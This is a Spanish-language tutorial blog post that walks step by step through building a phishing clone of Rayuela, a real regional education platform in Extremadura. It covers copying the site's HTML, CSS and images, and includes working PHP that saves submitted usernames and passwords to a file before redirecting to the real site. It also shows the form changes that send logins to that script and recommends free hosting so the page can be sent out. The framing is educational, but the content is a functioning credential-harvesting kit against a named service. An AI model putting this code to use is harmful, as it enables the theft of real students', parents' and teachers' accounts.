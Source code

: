 ```yaml
---
title: Phishing Rayuela [TIC]
date: 2021-1-29
categories: [Tutorial]
tags: [tutorial]     # TAG names should always be lowercase
---
```

# Phishing
## Introducción
En esta entrada, elaboraremos paso a paso una aplicación web phishing. Primeramente, definamos lo que es el phishing:

El *phishing* es una técnica que consiste en el envío de un correo electrónico por parte de un ciberdelincuente a un usuario simulando ser una entidad legítima con el objetivo de robarle información privada, realizarle un cargo económico o infectar el dispositivo. Para ello, adjuntan archivos infectados o enlaces a páginas fraudulentas en el correo electrónico.

Tendremos como objetivo la pagina de Rayuela (Plataforma Integral Educativa de la Consejería de Educación de la Junta de Extremadura).
Para ello, usaremos las tecnologías frecuentes en el desarrollo web (HTML, CSS, PHP) y un hosting.

## Video

[![Watch the video](https://i.ytimg.com/vi/-Hrk3IBMZGI/maxresdefault.jpg)](https://www.youtube.com/watch?v=-Hrk3IBMZGI)

## Estudio de la web
Lo primero que debemos hacer es acceder a la web y tener un pequeño mapa mental de la estructura externa. Ademas, podemos ir echando un vistazo a las tecnologías usadas y como han sido desarrolladas (si el css esta junto a html o en una hoja de estilo, etc).

![login_rayuela](/assets/img/sample/rayuela.png)

## HTML
Para comenzar, copiaremos el html de la web objetivo. HTML es un lenguaje de marcado que se utiliza para el desarrollo de páginas de Internet. Se trata de la sigla que corresponde a HyperText Markup Language, es decir, Lenguaje de Marcas de Hipertexto, que podría ser traducido como Lenguaje de Formato de Documentos para Hipertexto.
Podemos hacer esto de varias formas:
- Usar el comando ```wget``` o ```curl``` a través de la terminal para obtener el html
- Click derecho, ver código fuente, copiamos y guardamos en un archivo con extensión html.
    
Si vamos viendo nuestro progreso veremos la pagina que aun no se parece mucho a nuestro objetivo, la estética la conseguiremos con css.

![Vista_html](/assets/img/sample/rayuela_html.png)

## CSS
La sigla CSS corresponde a la expresión inglesa Cascading StyleSheets, que puede traducirse como “Hojas de estilo en cascada”. El concepto se utiliza en el ámbito de la informática para referirse a un lenguaje empleado en el diseño gráfico.
Si CSS esta externo al html, nos será necesario buscar la ruta de este archivo. Comunmente, entre las etiquetas head de html se coloca la ruta a este archivo. En nustro caso, se observa la ruta en una línea.

Si accedemos a la dirección, encontraremos todo el css que afecta a nuestra web. Hacemos igual que con el html, lo copiamos y guardamos en un archivo con extensión css. (Se debe de poner la misma ruta y nombre).

Ya se observa una mejora de nuestra web pero aun nos falta algo, las imágenes.



![Vista_css](/assets/img/sample/rayuela_css.png)
## Imágenes
Para obtener las imágenes, podemos usar [herramientas online](https://imagecyborg.com/) aunque en nuestro caso no obtendremos todas, puesto que, también hay imágenes en el css.
Por orta parte, se puede hacer manualmente, si observamos el html veremos las rutas de las imágenes al igual que en el css.
Para ir mas rápido en la búsqueda de imágenes, se puede usar filtros por .png .jpg .gif.
Una vez encontradas, las descargaremos y guardaremos con la misma ruta. Ya tenemos la web copiada.

## PHP
PHP (acrónimo recursivo de PHP: Hypertext Preprocessor) es un lenguaje de código abierto muy popular especialmente adecuado para el desarrollo web y que puede ser incrustado en HTML.
Lo usaremos para recoger la información de los inputs y guardarla en un archvio txt.

```php
<?php
file_put_contents("usernames.txt", "Account: " . $_POST['username'] . " Pass: " . $_POST['password'] . "\n", FILE_APPEND);
header('Location: https://rayuela.educarex.es');
exit();
```
La función file_put_contents escribe informacion en un fichero tiene esta sintaxis:
file_put_contents(filename, data, mode, context)
La función PHP header nos permite enviar encabezados sin formato al cliente (robot, navegador…). Es una manera de forzar dicho envío antes de que se lean los encabezados de la propia página.
Ahora deberemos ir al código HMTL y cambiar en los inputs los valores a username y password. Nos quedaría algo asi:
```html
<div class="columna">
  <label for="ussername">Usuario</label>
  <input name="username" type="text" id="username" />
</div>
<div class="columna">
  <label for="password">Clave</label>
  <input name="password" type="password" id="password " />
</div>
```
Además, debemos cambiar la redirección del action de form  a login.php:

```html
<form name="formulario" id="formulario" method="post" action="login.php">
```
## Hosting 

Después de tener todo el login perfecto para el phishing toca subirlo a la red para poder enviarlo. En este caso usaremos un [hosting gratuito](https://000webhost.com).

![login_000webhost](/assets/img/sample/000webhostapp.png)

## Práctica

Para comprobar los conociminetos adquiridos, realiza un página phishing a esta [Web](https://aalmeidar.000webhostapp.com)




## Para ampliar

- [Ejemplo de phsishing paso a paso (BBVA)](https://www.bbva.com/es/un-ejemplo-de-phishing-paso-a-paso/)
- [Ingeniería social: Phishing y baiting](http://repository.unipiloto.edu.co/bitstream/handle/20.500.12277/6349/Ingenieria%20social%20Phishing%20y%20Baiting.pdf?sequence=1&isAllowed=y)
- [Los ataques de ingeniería social más habituales son los fraudes online](https://cuadernosdeseguridad.com/2020/07/ingenieria-social-engano-pablo-iglesias-phishing/)
- [Metodologías de Ingeniería Social ](http://openaccess.uoc.edu/webapps/o2/bitstream/10609/81255/6/jrodriguezrinTFM0618memoria.pdf)
- [Phishing: la automatización de la ingienería social](https://repository.eafit.edu.co/bitstream/handle/10784/2443/salazar_natalia_2007.pdf?sequence=1)
